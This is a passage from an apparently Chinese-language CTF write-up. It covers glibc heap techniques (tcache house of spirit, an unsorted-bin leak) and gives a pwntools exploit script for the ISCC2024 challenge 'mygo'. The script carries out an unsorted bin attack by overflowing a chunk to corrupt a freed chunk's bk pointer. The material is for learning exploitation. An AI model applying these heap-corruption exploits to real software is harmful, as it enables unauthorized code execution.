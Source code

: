 ##### 9:tcache house of spirit

和fast_bin版本差不多,不过不需要伪造下一个chunk的pre_size

##### 10:unsorted_bin_leak(after libc2.26)

先连续malloc7个大小相同的chunk,再把它们free了.把tcache_bin填满就行

#### 2[ISCC2024]mygo (怎么又是你.jpg)

简单的说,由于这题的判断条件是某个值需要大于一个数,所以也可以用上面刚刚说过的unsorted_bin_attack来打.

```python
from pwn import*
context.log_level='debug'
context.arch='amd64'

r=process("./mygo")
pause()
def cre_s(size,content):
    r.recvuntil(b"Your choice :")
    r.sendline(b"1")
    r.sendline(str(size))
    r.send(content)

def edi_s(index,size,content):
    r.recvuntil(b"Your choice :")
    r.sendline(b"2")
    r.sendline(str(index))
    r.sendline(str(size))
    r.send(content.ljust(size,b'\x00'))

def del_s(index):
    r.recvuntil(b"Your choice :")
    r.sendline(b"3")
    r.sendline(str(index))

def itsmygo():
    r.recvuntil(b"Your choice :")
    r.sendline(b"947")

heap_add=0x6020E0

cre_s(0x10,b'a')
cre_s(0x80,b'a')
cre_s(0x10,b'a')

del_s(1)
edi_s(0,0x30,p64(0)*3+p64(0x91)+p64(0)+p64(0x6020c0-0x10))#向这个地址写入一个很大的数
cre_s(0x80,b'a')
itsmygo()

r.interactive()
```
